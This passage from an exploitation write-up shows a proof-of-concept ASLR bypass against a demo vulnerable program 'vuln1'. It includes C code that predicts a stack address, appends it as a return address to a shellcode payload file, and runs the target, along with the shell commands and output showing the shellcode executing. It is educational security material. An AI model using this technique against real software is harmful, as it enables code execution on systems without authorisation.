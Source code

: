 The above code writes our shellcode in its binary form to stdout. We are going to use this to write the shellcode to an output file; there is probably a much cleaner way to exploit this than bash redirects, but again this is just a dirty PoC to get code execution. After we write shellcode to the file, we will use another program to give us its stack address (and in turn, the vulnerable program's stack address). This address will become our return address for our shellcode. Below is the "exploit" code to predict stack of the target application:

    /* exploit.c */
    #include <stdio.h>
    #include <stdlib.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    
    int main(int argc, char *argv[])
    {
        int fd;
        int x;
    
        x = (int )&fd;
        x+= 1924;
    
        fd = open("./a", O_WRONLY | O_APPEND);
        write(fd, (char *)&x, 4);
        close(fd);
    
        execve("./vuln1", NULL, NULL);
    }

The exploit code above just opens the file `./a` and writes its stack address (added with 1924) to the end of the file. The +1924 is similar to the 2176 bytes of offset noticed during the printing of program stacks. It has been adjusted to match the size of the buffer where the data is being stored, and other environmental factors. For any given target application you will need to identify what this value needs to be, which is simple to do if you know the size of the buffer storing your shellcode and the other factors influencing how far the offset of the target stack is. The file which we write to in the code above is ultimately our payload for the vuln1 program. Following the write, we then call the vulnerable program.

**In short: if we use write_shellcode to plant our shellcode in the file './a', and then we use the exploit to append our return address to the end of './a', and then use './a' to feed into the vulnerable application after calling it with execve, we should have a decent shot at exploitation. This ofcourse assumes it is in the same time window (before the ASLR entropy updates).**

At this point, exploitation is as simple as:

    drraid@vm07:~/aslr_writeup$ ./write_shellcode > a; ./exploit < a 
    buf = AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1.1.1.S.fE".-....Ph Pwn..LoL,P1........
      ̀...0..
    .
    LoL PwneD!

Shown above, (after being redacted for printable characters - having non-printable replaced with periods) the execution of the shellcode can be seen printing `"LoL PwneD!\n"` - game over. This demonstrates the bypass of ASLR, but it isn't as reliable as it could be. Although this works in excess of 90% of the time, more surgical exploitation can still be achieved. Since this technique is relying on a sort of "race condition" (racing to beat out the entropy update time window), then the quicker the exploit can run to execve() the better the chances are of success. An obvious answer here is to optimize the code by re-writing it in assembly. 

